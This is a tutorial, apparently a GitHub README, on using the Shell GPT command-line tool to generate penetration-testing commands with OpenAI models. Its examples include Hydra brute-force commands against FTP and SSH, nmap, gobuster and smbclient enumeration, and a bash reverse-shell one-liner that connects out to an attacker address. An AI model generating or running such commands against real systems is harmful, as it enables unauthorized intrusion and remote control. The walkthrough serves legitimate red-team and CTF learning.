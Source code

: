 # 🛠️ Shell GPT Walkthrough for Pentesting

Shell GPT (sgpt) is a CLI tool that integrates OpenAI’s models into your terminal. This walkthrough shows how to use sgpt effectively during pentesting engagements.

---

## ⚙️ Installation

pip install shell-gpt

Set your OpenAI API key:

export OPENAI_API_KEY="your-api-key"

Test it:

sgpt --shell "Hello"

---

## 💡 Usage Examples

### 1. 🔍 Basic Prompt

sgpt --shell "What is the Nmap command to scan all ports?"

**Result:**

nmap -p- 10.10.10.10

---

### 2. 🧠 Shell Mode

Generate raw bash-ready commands:

sgpt --shell "Brute force FTP login with Hydra using rockyou.txt"

**Output:**

hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://10.10.10.10

---

### 3. 🛠️ Script Creation

sgpt --shell "Write a bash script to ping all IPs in a subnet"

**Output:**

#!/bin/bash  
for ip in $(seq 1 254); do  
  ping -c 1 192.168.1.$ip | grep "64 bytes" &  
done

---

### 4. 🎯 Reverse Shells

sgpt --shell "Give me a bash reverse shell for 192.168.1.100:4444"

**Output:**

bash -i >& /dev/tcp/192.168.1.100/4444 0>&1

---

### 5. 🛡️ CVE/Exploit Queries

sgpt --shell "Known CVEs for Apache 2.4.49"

**Result:**

- CVE-2021-41773: Path Traversal  
- CVE-2021-42013: RCE

---

## 🧪 Pentest Workflow Example (with sgpt)

# Full port scan  
sgpt --shell "Nmap full scan command"  
→ nmap -p- 10.10.10.10

# Directory enumeration  
sgpt --shell "Gobuster command for web server on port 8080"  
→ gobuster dir -u http://10.10.10.10:8080 -w /usr/share/wordlists/dirb/common.txt

# SSH bruteforce  
sgpt --shell "Hydra command to bruteforce SSH"  
→ hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10

# Enum SMB  
sgpt --shell "smbclient command to enumerate shares"  
→ smbclient -L //10.10.10.10 -N

---

## 🧠 Tips

- Always use --shell to get ready-to-run terminal output.  
- Add --code if using in environments where markdown formatting matters.  
- Switch models with --model gpt-3.5-turbo or --model gpt-4.

---

## 📌 Summary

Shell GPT helps red teamers, bug bounty hunters, and CTF players automate terminal tasks through natural language. It’s fast, contextual, and extremely helpful during reconnaissance, exploitation, and reporting.

---
